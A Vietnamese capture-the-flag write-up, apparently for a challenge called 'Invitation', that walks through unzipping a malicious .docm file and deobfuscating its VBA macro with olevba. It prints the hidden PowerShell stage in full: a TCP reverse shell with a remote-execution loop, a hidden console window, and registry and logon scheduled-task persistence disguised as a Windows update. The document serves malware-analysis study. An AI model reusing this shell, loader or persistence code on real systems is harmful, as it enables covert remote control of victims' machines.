





# Invitation



<figure><figcaption></figcaption></figure>

Challenge này cho ta một file docx.&#x20;

* Thật chất đây là một file zip nên mình unzip và mục tiêu là tìm kiếm macro

```
┌──(kali㉿kali)-[~/Desktop/Invitation]
└─$ unzip invite.docm             
Archive:  invite.docm
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: word/document.xml       
  inflating: word/_rels/document.xml.rels  
  inflating: word/vbaProject.bin     
 extracting: word/media/image1.png   
  inflating: word/theme/theme1.xml   
  inflating: word/_rels/vbaProject.bin.rels  
  inflating: word/vbaData.xml        
  inflating: word/settings.xml       
  inflating: word/styles.xml         
  inflating: word/webSettings.xml    
  inflating: word/fontTable.xml      
  inflating: docProps/core.xml       
  inflating: docProps/app.xml        
                                                                                                          
┌──(kali㉿kali)-[~/Desktop/Invitation]
└─$ tree
.
├── [Content_Types].xml
├── docProps
│   ├── app.xml
│   └── core.xml
├── invite.docm
├── _rels
└── word
    ├── document.xml
    ├── fontTable.xml
    ├── media
    │   └── image1.png
    ├── _rels
    │   ├── document.xml.rels
    │   └── vbaProject.bin.rels
    ├── settings.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── vbaData.xml
    ├── vbaProject.bin
    └── webSettings.xml

6 directories, 15 files
```

* Sau khi check tất cả các file thì mình nhận thấy file `vbaProject.bin` là nghi ngờ nhất
* Mình dùng [olevba](https://github.com/decalage2/oletools) để phân tích

```
┌──(kali㉿kali)-[~/Desktop/Invitation/word]
└─$ olevba vbaProject.bin | more              147 ⨯ 1 ⚙
olevba 0.56.1 on Python 3.9.2 - http://decalage.info/pyt
hon/oletools
========================================================
=======================
FILE: vbaProject.bin
Type: OLE
--------------------------------------------------------
-----------------------
VBA MACRO ThisDocument.cls 
in file: vbaProject.bin - OLE stream: 'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - 
- - - - - - - - - - - 
Dim bomazpcuwhstlcd As String
Dim dbcsmjrdsqm As String
Dim gxiwcxqzqi As String
Dim uejdkidq As String
bomazpcuwhstlcd = odsuozldxufm("4c674167414367414941416b
414641416377426f4147384162514246414673414e41426441437341
4a41427741484d4161414276414530415a51426241444d414d414264
414373414a774234414363414b514167414367414941426241484d41
6441427941476b4162674248414630414f67413641476f4162774270
4147") & odsuozldxufm("34414b41416e") & _
odsuozldxufm("4143634149414173414341414b4142624146494152
") & odsuozldxufm("514248414755415741426441446f414f67424
e41474541564142444145674152514254414367414941416941436b4
14a774234414363414b77426441444d414d514262414551415351427
3414577415a51424941484d414a414172414630414d5142624145514
16151424d41457741") & _
odsuozldxufm("5a51426f41484d414a414167414367414a67423841
4341414b51413041444d4158514253414545416141426a4146734158
51424841473441535142534146514163774262414377414a77423041
4667416167416e414367415a51424441454541544142514145554155
67417541436b414a77416b414363414c41416e41486341") & odsuo
zldxufm("63514270") & _
odsuozldxufm("414363414b41426c41454d415151424d4146414152
514253414334414b51416e4144734164414259414363414b77416e41
476f415a514279414745415877427a41474d416277426b4147774159
514274414363414b77416e") & odsuozldxufm("414873415167416
e414373414a774255414363414b77416e41456741517742304146674
16167416741436341") & _
odsuozldxufm("4b77416e4144304149414277414363414b77416e41
4763415a5142794148634163514270414363414b414169414341414c
41416e414334414a774167414377414a774253414363414b77416e41
476b41527742494146514164414250414777414a774172414363415a
51426d414851414a77416741436b414941423841434141526742") &
 odsuozldxufm("76") & _
odsuozldxufm("414649415251426841454d41534141744145384151
67424b4147554159774255414341416577416b414638414c67425741
45454154414256414555416651416741436b414b514167414341414b
51414b41416f414367416b4148414159514235414777416277426841

...

```

Giải mã các biểu thức VBA bằng deobfuscate và hiển thị mã nguồn macro sau khi thay thế tất cả các chuỗi bị xáo trộn bằng nội dung được giải mã của chúng

```
┌──(kali㉿kali)-[~/Desktop/Invitation/word]
└─$ olevba --decode --deobf --reveal vbaProject.bin
......
Dim bomazpcuwhstlcd As String
Dim dbcsmjrdsqm As String
Dim gxiwcxqzqi As String
Dim uejdkidq As String
bomazpcuwhstlcd = "b'LgAgACgAIAAkAFAAcwBoAG8AbQBFAFsANABdACsAJABwAHMAaABvAE0AZQBbADMAMABdACsAJwB4ACcAKQAgACgAIABbAHMAd
AByAGkAbgBHAF0AOgA6AGoAbwBpAG'b'4AKAAn'b'ACcAIAAsACAAKABbAFIAR'b'QBHAGUAWABdADoAOgBNAGEAVABDAEgARQBTACgAIAAiACkAJwB4AC
cAKwBdADMAMQBbAEQASQBsAEwAZQBIAHMAJAArAF0AMQBbAEQAaQBMAEwA'b'ZQBoAHMAJAAgACgAJgB8ACAAKQA0ADMAXQBSAEEAaABjAFsAXQBHAG4AS
QBSAFQAcwBbACwAJwB0AFgAagAnACgAZQBDAEEATABQAEUAUgAuACkAJwAkACcALAAnAHcA'b'cQBp'b'ACcAKABlAEMAQQBMAFAARQBSAC4AKQAnADsAd
ABYACcAKwAnAGoAZQByAGEAXwBzAGMAbwBkAGwAYQBtACcAKwAn'b'AHsAQgAnACsAJwBUACcAKwAnAEgAQwB0AFgAagAgACcA'b'KwAnAD0AIABwACcAK
wAnAGcAZQByAHcAcQBpACcAKAAiACAALAAnAC4AJwAgACwAJwBSACcAKwAnAGkARwBIAFQAdABPAGwAJwArACcAZQBmAHQAJwAgACkAIAB8ACAARgB'" &
 odsuozldxufm("76b'AFIARQBhAEMASAAtAE8AQgBKAGUAYwBUACAAewAkAF8ALgBWAEEATABVAEUAfQAgACkAKQAgACAAKQAKAAoACgAkAHAAYQB5AGw
AbwBhAGQAQgBhAHM'b'AZQA2ADQAIAA9ACAA'b'IgBKAEEAQgBqAEEARwB3AEEAYQBRAEIAbABBAEcANABBAGQAQQBBAGcAQQBEADAAQQBJAEEAQgBPAEE
ARwBV'b'AEEAZAB3AEEAdABBAEUAOABBAFkAZwBCAHEAQQBHAFUAQQBZ'b'AHcAQgAwAEEAQwBBAEEAVQB3AEIANQBBAEgATQBBAGQAQQBCAGwAQQBHADA
AQQBMAGcAQgBPAEEARwBVAEEAZABBAEEAdQBBAEYATQBBAGIA'b'dwBCAGoAQQBHAHMAQQBaAFEA'b'QgAwAEEASABNAEEATABnAEIAVQBBAEUATQBBAFU
AQQBCAEQAQQBHAHcAQQBhAFEAQgBsAEEARwA0AEEAZABBAEEAbwBBAEMASQBBAE0AUQBBADUAQQBEAFkAQQ'b'BMAGcAQQB5'b'AEEARABNAEEATQB3AEE
AegBBAEMANABBAE4AUQBBADAAQQBDADQAQQBNAGcAQQBpAEEAQwB3AEEATgBBA'b'EEAMABBAEQAUQBBAE4AQQBBAHAAQQBEAHMAQQBKAEEAQgB6AEEA'b
'SABRAEEAYwBnAEIAbABBAEcARQBBAGIAUQBBA'b'GcAQQBEADAAQQBJAEEAQQBrAEEARwBNAEEAYgBBAEIAcABBAEcAVQBBAGIAZwBCADAAQQBDADQAQQ
BSAHcAQgBsAEEASABR'b'AEEAVQB3AEIAMABBAEgASQBBAFoAUQBCAGgAQQBHADAAQQBLAEEAQQBwAEEARABzAEEAVwB3AEIAaQBBAEgAawBBAGQAQQBCA
GwAQQBGAHMAQQB'b'YAFEAQgBkAEEAQwBRAEEA'b'WQBnAEIANQBBAEgAUQBBAFoAUQBCAHoAQQBDAEEAQQBQAFEAQQBnAEEARABBAEEATABnAEEAdQBBA
EQAWQBBAE4AUQBBADEA'b'QQBEAE0AQQBOAFEAQgA4AEEAQwBVAEEAZQB3'b'AE'b'EAdwBBAEgAMABBAE8AdwBCADMAQQBHAGcAQQBhAFEAQgBzAEEARw
BVAEEASwBBAEEAbwBBAEMAUQBBAGEAUQBBAGcAQQBEADAAQQBJAEEAQQBrAEEASABNAEEAZABBAEIA'b'eQBBAEcAVQBB'b'AFkAUQBCAHQAQQBDADQAQQ
BVAGcAQgBsAEEARwBFAEEAWgBBAEEAbwBBAEMAUQBBAFkAZwBCADUAQQBIAFEAQQBaAFEAQgB6AEEAQwB3AEEASQBBAEEAdwBB'b'AEMAdwBBAEkAQQBBA
GsAQQBHAEkAQQBlAFEAQgAwAEEARwBVAEEAYwB3AEEAdQBBAEUAdwBBAFoAUQ'b'BCAHUAQQBHAGMAQQBkAEEAQgBvAEEAQwBrAEEASwBRAEEAZwBBAEMA
'b'MABBAGIAZwBCAGwAQQBDAEEAQQBNAEEAQQBwAEEASABz'b'AEEATwB3AEEAawBBAEcAUQBBAFkAUQBCADAAQQBHAEUAQQBJAEEAQQA5AEEAQwBBAEEA
SwBBAEIATwBBAEcAVQBB'b'AGQAdwBBAHQAQQBFADgAQQBZAGcAQgBxAEEARwBVAEEAWQB3AEIAMABBAEMAQQBBAEwA'b'UQBCAFUAQQBIAGsAQQBjAEEA
QgBsAEEARQA0AEEAWQBRAEIAdABBAEcAVQBBAEkA'b'QQBCAFQAQQBIAGsAQQBjAHcAQgAwAEEARwBVAEEAYgBRAEEAdQBBAEYAUQBBAFoAUQBCADQAQQB
IAFEAQQBMAGcAQgBCAEEARgBNAEEAUQB3AE'b'IASgBBAEUAawBBAFIAUQBC'b'AHUAQQBHAE0AQQBiAHcAQgBrAEEARwBrAEEAYgBnAEIAbgBBAEMAawB
BAEwA'b'ZwBCAEgAQQBHAFUAQQBkAEEAQgBUAEEASABRAEEAYwBnAEIAcABBAEcANABBAFoAdwBBAG8A'b'QQBDAFEAQQBZAGcAQgA1AEEASABRAEEAW'b
'gBRAEIAegBBAEMAdwBBAE0AQQBBAHMAQQBDAEEAQQBKAEEAQgBwAEEAQwBrAEEATwB3AEEAawBBAEgATQBBAFoAUQBCAHUAQQBH'b'AFEAQQBZAGcAQgB
oAEEARwBNAEEAYQB3AEEAZwBBAEQAMABBAEkAQQBBAG8AQQBHAGsAQQBaAFEAQ'b'gA0AEEAQwBBAEEASgBBAEIAawBBAEcARQBBAGQAQQBCAGgAQQBDAE
EA'")
dbcsmjrdsqm = "b'QQBNAGcAQQArAEEAQwBZAEEATQBRAEEAZwBBAEgAdwB'b'BAEkAQQBCAFAAQQBIAFUAQQBkAEEAQQB0AEEARgBNAEEAZABBAEIAeQ
BBAEcAawBBAGIAZwBCAG4AQQBDAEEAQQBL'b'AFEAQQA3AEEAQwBRAEEAYwB3AEIAbABBAEcANABBAFoAQQBCAGkAQQBHAEUAQQBZAHcAQgByAEEARABJ'
b'AEEASQBBAEEAZwBBAEQAMABBAEkAQQBBAGsAQQBIAE0AQQBaAFEA'b'QgB1AEEARwBRAEEAWQBnAEIAaABBAEcATQBBAGEAdwBBAGcAQQBDAHMAQQBJA
EEAQQBpAEEARgBBAEEAVQB3AEEAZwBBAEMASQBBAEkAQQB'b'BAHIAQQBDAEEAQQBLAEEAQgB3'b'AEEASABjAEEAWgBBAEEAcABBAEMANABBAFUAQQBCA
GgAQQBIAFEAQQBhAEEAQQBnAEEAQwBzAEEASQBBAEEAa'b'QBBAEQANABBAEkAQQBBAGkAQQBEAHMAQQBKAEEAQgB6AEEA'b'RwBVAEEAYgBnAEIAawBBA

...skipping 1 line
gxiwcxqzqi = "b'VAB5AHAAZQAgAC0ATgBhAG0AZQAgAFcAaQBuAG'b'QAbwB3ACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAEMAbwBuAHMAbwBsAGUAIAA
tAE0AZQBtAGIAZQByAEQAZQBmAGkAbgBp'b'AHQAaQBvAG4AIAAnAAoAWwBEAGwAbABJAG0AcABvAHIAdAAoACIASwBlAHIAbgBlAGwAMwAyAC4AZABsAG
wAIgApAF0'b'ACgBwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAA'b'ZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AEMAbwBuAHMAbwBsAG
UAVwBpAG4AZABvAHcAKAApADsACgAKAFsA'b'RABsAGwASQBtAHAAbwByAHQAKAAiAHUAcwBl'b'AHIAMwAyAC4AZABsAGwAIgApAF0ACgBwAHUAYgBsAG
kAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABiAG8AbwBs'b'ACAAUwBoAG8AdwBXAGkAbgBkAG8AdwAoAEkA'b'bgB0AFAAdAByACAAaABXAG
4AZAAsACAASQBuAHQAMwAyACAAbgBDAG0AZABTAGgAbwB3ACkAOwAKACcAOwAKAFsAQwBvAG4AcwBvAGwA'b'ZQAuAFcAaQBuAGQAbwB3AF0AOgA6'b'AF
MAaABvAHcAVwBpAG4AZABvAHcAKABbAEMAbwBuAHMAbwBsAGUALgBXAGkAbgBkAG8AdwBdADoAOgBHAG'b'UAdABDAG8AbgBzAG8AbABlAFcAaQBuAGQAb
wB3ACgAKQAsACAA'b'MAApADsACgAKAAoAaQBmACAAKAAkAHAAYQB5AGwAbwBhAGQAQgBhAHMAZQA2ADQAIAAtAG0AYQB0AGMAaAAgACIA'b'aAB0AHQAc
AA6AHwAaAB0AHQAcABzADoAIgApACAAewAK'b'ACAAIAAgACAAJABwAGEAeQBsAG8AYQBkAEIAYQBzAGUANgA0ACAAPQAgACgATgBlAHcALQBPAGIA'b'a
gBlAGMAdAAgACIATgBlAHQALgBXAGUAYgBjAGwAaQBlAG4AdAAiACkA'b'LgBEAG8AdwBuAGwAbwBhAGQAUwB'b'0AHIAaQBuAGcAKAAkAHAAYQB5AGwAb
wBhAGQAQgBhAHMAZQA2ADQAKQA7AAoAfQAKAAoAJABpAG4AcwB0AGEAbABsAGUAZAAgAD0AIABH'b'AGUAdAAtAEkAdA'b'BlAG0AUAByAG8AcABlAHIAd
AB5ACAALQBQAGEAdABoACAAIgBIAEsAQwBVADoAXABTAG8AZgB0AHcAYQByAGUAXAAkACgAJAByAGUAZwBwACkAIgAgAC0A'b'TgBhAG0AZ'b'QAgACIAJ
AAoACQAcgBlAGcAbgApACIAIAAtAGUAYQAgAFMAaQBsAGUAbgB0AGwAeQBDAG8AbgB0AGkAbgB1AGUAOwAKAAoACgBpAGYAIAAoACQAaQBuAHMAdABh'b'
AGwAbABlAGQA'b'KQAgAHsACgAKAAoAIAAgACAAIABpAGYAIAAoACQAaQBuAHMAdABhAGwAbABlAGQAIAAtAG4AZQAgACQAcABhAHkAbABvAGEAZABCAGE
AcwBlADYANAApACAA'b'ewAKACAAIAAgACAAIAAgACAAIABTAGUAdAAtAEkAdA'b'BlAG0AUAByAG8AcABlAHIAdAB5ACAALQBQAGEAdABoACAAIgBIAEs
AQwBVADoAXABTAG8AZgB0AHcAYQByAGUAXAAk'b'ACgAJAByAGUAZwBwACkAIgAgAC0ATgBhAG'b'0AZQAgACIAJAAoACQAcgBlAGcAbgApACIAIAAtAEY
AbwByAGMAZQAgAC0AVgBhAGwAdQBlACAAJABwAGEAeQBsAG8AYQBkAEIA'b'YQBzAGUANgA0ADsACgAgACAAIAAgAH0ACgAKACMAIABpAG4AcwB0AGEAbA
BsAGEAdABpAG8AbgAKAH0AIABlAGwAcwBlACAAewAKACAAIAAgACAACgAKACAAIAAgACA'b'AaQBm'b'ACAAKAAkAEYAQQBMAFMARQAgAC0AZQBxACAAKA
BUAGUAcwB0AC0AUABhAHQAaA'b'AgAC0AUABhAHQAaAAgACIASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQA'b'cgBlAGcAcAApAFwAIg
ApACkAIAB7AAoAIAAgACAAIAAgACAAIAAgAE4AZQ'b'B3AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIASABLAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBl'
b'AFwAJAAoACQAcgBlAGcAcAApACIAOwAKACAAIAAgACAAfQAKACAAIAAgACAAUw'b'BlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhA
HQAaAAgACIASABLAEMA'b'VQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQA'b'cgBlAGcAcAApACIAIAAtAE4AYQBtAGUAIAAiACQAKAAkAHIAZQBnA
G4AKQAiACAALQBGAG8AcgBjAGUAIAAtAFYAYQBs'b'AHUAZQAgACQAcABhAHkAbABvAGEAZABCAGEAcwBlADYANAA7AAoAIAAg'b'ACAAIAAKACAAIAAgA
CAACgAgACAAIAAgACQAdQAgAD0AIABbAEUAbgB2AGkAcgBvAG4AbQBlAG4A'"
uejdkidq = "b'dABdADoAOgBVAHMAZQByAE4AYQBtAGUAOwAKACAAIAAgACAACgAgACAAIAAgAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAARwBlAHQA
LQBTAGMAaABlAGQAdQBsAGUAZ'b'ABU'b'AGEAcwBrACAALQBUAGEAcwBrAE4AYQBtAGUAIAAiACQAKAAkAHIAZQBnAHAAKQAkACg'b'AJAByAGUAZwBuA
CkAIgAgAC0AZQBhACAAUwBpAGwAZQBuAHQAbAB5AEMAbwBuAHQA'b'aQBuAHUAZQA7AAoAIAAgACAAIABpAGYAIAAoACQAdABhAHMAawApACAAewAKACAA
IAA'b'gACAAIAAgACAAIABVAG4AcgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABl'b'AGQAVABhAHMAawAgAC0AVABhAHMAawBOAGE'b'AbQBlA
CAAIgAkACgAJAByAGUAZwBwACkAJAAoACQAcgBlAGcAbgApACIAIAAtAEMAbwBuAGYAaQByAG0AOgAkAGYAYQBsAHMA'b'ZQA7AAoAIAAgACAAIAB9AAoA
IAAgACAAIAAKACAAIAAgACAACgAgACAAIAAgACQAYQAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQ'b'AYQBzAGsAQQBjAHQAaQBv'b'AG4A
IAAtAEUAeABlAGMAdQB0AGUAIAAiAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAiACAAIgAtAHcAIABoAGkAZABkAGU'b'AbgAgAC0ARQB4AGUAYwB
1AHQAaQBvAG4A'b'UABvAGw'b'AaQBjAHkAIABCAHkAcABhAHMAcwAgAC0AbgBvAHAAIAAtAE4AbwBFAHgAaQB0ACAALQBDACAAVwByAGkAdABlAC0AaAB
vAHMAdAAgACcAVwBpAG4AZABvAHcAcwAg'b'AHUAcA'b'BkAGEAdABlACAAcgBlAGEAZAB5ACcAOwAgAGkAZQB4ACAAKABbAFMAeQBzAHQAZQBtAC4AVAB
lAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4A'b'RwBlAHQ'b'AUwB0AHIAaQBuAGcAKABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgB
lAHIAdABdADoAOgBGAHIAbwBtAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAKABHAGUAdAAt'b'AEkAdABlAG0AUAByAG8AcABlAHIAdAB5AC'b'AASAB
LAEMAVQA6AFwAUwBvAGYAdAB3AGEAcgBlAFwAJAAoACQAcgBlAGcAcAApACkALgAkACgAJAByAGUAZwBuACkAKQApACkA'b'OwAiADsACgAgACAAIAAgAC
QAdAAgAD0AIABOAGUAdwAtAFMAYwBoA'b'GUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0AQQB0AEwAbwBnAE8AbgAgAC0AVQBz'b'AG
UAcgAgACIAJAAoACQAdQApACIAOwA'b'KACAAIAAgACAAJABwACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawBQAHIAaQBuAGMAa
QBwAGEAbAAgACIA'b'JAAoACQAdQApACIAOwAKACAAIAAgACAAJABzACAAPQAgAE4AZQB3AC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawBTAGUAdAB0
A'b'GkAbgBnAHMAUwBlAHQAIAAtAEgAaQBk'b'AGQAZQBuADsA'b'CgAgACAAIAAgACQAZAAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAY
QBzAGsAIAAtAEEAYwB0AGkAbwBuACAAJABhACAALQBUAHIAaQBnAGcA'b'ZQByACAAJAB0ACAALQBQAHIAaQBuAGMAaQBwAGEAbAAgACQAcAAgAC0AUwBl
AHQAdABpAG4AZwBzACAAJABzADsACgAgACAAIAAgAFIAZQBnAGkAcwB0AGUAcgAtAFM'b'AYwBo'b'AGUAZAB1AGwAZQBkAFQAYQBzAGsAIAAiACQAKAAk
AHIAZQBnAHAAKQAkACgAJAByAGUAZ'b'wBuACkAIgAgAC0ASQBuAHAAdQB0AE8AYgBqAGUAYwB0ACAAJABkADsACgB9AAoA'b'CgAKAGkAZQB4ACAAKAB'
b'bAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKABbAFMAeQBz'b'
AHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBGAHIAbwBtAEI'b'AYQBzAGUANgA0AFMAdAByAGkAbgBnACgAJABwAGEAeQBsAG8AYQBkAEIAYQBzAGU
ANgA0ACkAKQApADsACgAKAA=='"
x = Shell(odsuozldxufm("50b'OWERSHELL.ex'b'e -noexit -w hidd'b'en -enc '") & bomazpcuwhstlcd & dbcsmjrdsqm & gxiwcxqzq
i & uejdkidq, 1)
End Function


...skipping 1 line
Private Function odsuozldxufm(ByVal gwndcowqyulk As String) As String
Dim cjzkqjwvtdxr As Long
For cjzkqjwvtdxr = 1 To Len(gwndcowqyulk) Step 2
odsuozldxufm = odsuozldxufm & Chr$(Val("&H" & Mid$(gwndcowqyulk, cjzkqjwvtdxr, 2)))
Next cjzkqjwvtdxr
End Function
.....
.....
```

* Chúng ta có thể thấy chúng được encode bằng base64. Decode ta được

```powershell
( $PshomE[4]+$pshoMe[30]+'x') ( [strinG]::join('' , ([REGeX]::MaTCHES( ")'x'+]31[DIlLeHs$+]1[DiLLehs$ (&| )43]RAhc[]GnIRTs[,'tXj'(eCALPER.)'$','wqi'(eCALPER.)';tX'+'jera_scodlam'+'{B'+'T'+'HCtXj '+'= p'+'gerwqi'(" ,'.' ,'R'+'iGHTtOl'+'eft' ) | FoREaCH-OBJecT {$_.VALUE} ))  )


$payloadBase64 = "JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADYALgAyADMAMwAzAC4ANQA0AC4AMgAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==";

//$payloadBase64 = "$client = New-Object System.Net.Sockets.TCPClient("196.2333.54.2",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


SEt ("G8"+"h")  (  " ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . "  ) ;-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX 

Add-Type -Name Window -Namespace Console -MemberDefinition '
[DllImport("Kernel32.dll")]
public static extern IntPtr GetConsoleWindow();

[DllImport("user32.dll")]
public static extern bool ShowWindow(IntPtr hWnd, Int32 nCmdShow);
';
[Console.Window]::ShowWindow([Console.Window]::GetConsoleWindow(), 0);


if ($payloadBase64 -match "http:|https:") {
    $payloadBase64 = (New-Object "Net.Webclient").DownloadString($payloadBase64);
}

$installed = Get-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -ea SilentlyContinue;


if ($installed) {


    if ($installed -ne $payloadBase64) {
        Set-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -Force -Value $payloadBase64;
    }

# installation
} else {
    

    if ($FALSE -eq (Test-Path -Path "HKCU:\Software\$($regp)\")) {
        New-Item -Path "HKCU:\Software\$($regp)";
    }
    Set-ItemProperty -Path "HKCU:\Software\$($regp)" -Name "$($regn)" -Force -Value $payloadBase64;
    
    
    $u = [Environment]::UserName;
    
    
    $task = Get-ScheduledTask -TaskName "$($regp)$($regn)" -ea SilentlyContinue;
    if ($task) {
        Unregister-ScheduledTask -TaskName "$($regp)$($regn)" -Confirm:$false;
    }
    
    
    $a = New-ScheduledTaskAction -Execute "powershell.exe" "-w hidden -ExecutionPolicy Bypass -nop -NoExit -C Write-host 'Windows update ready'; iex ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Get-ItemProperty HKCU:\Software\$($regp)).$($regn))));";
    $t = New-ScheduledTaskTrigger -AtLogOn -User "$($u)";
    $p = New-ScheduledTaskPrincipal "$($u)";
    $s = New-ScheduledTaskSettingsSet -Hidden;
    $d = New-ScheduledTask -Action $a -Trigger $t -Principal $p -Settings $s;
